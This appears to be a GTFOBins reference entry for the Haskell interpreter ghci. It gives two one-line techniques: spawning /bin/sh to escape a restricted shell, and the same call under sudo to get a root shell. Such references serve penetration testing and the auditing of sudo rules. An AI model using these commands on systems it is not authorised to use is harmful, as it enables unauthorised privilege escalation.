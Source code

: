 # GTFOBin: ghci

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
ghci
System.Process.callCommand "/bin/sh"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo ghci
System.Process.callCommand "/bin/sh"
```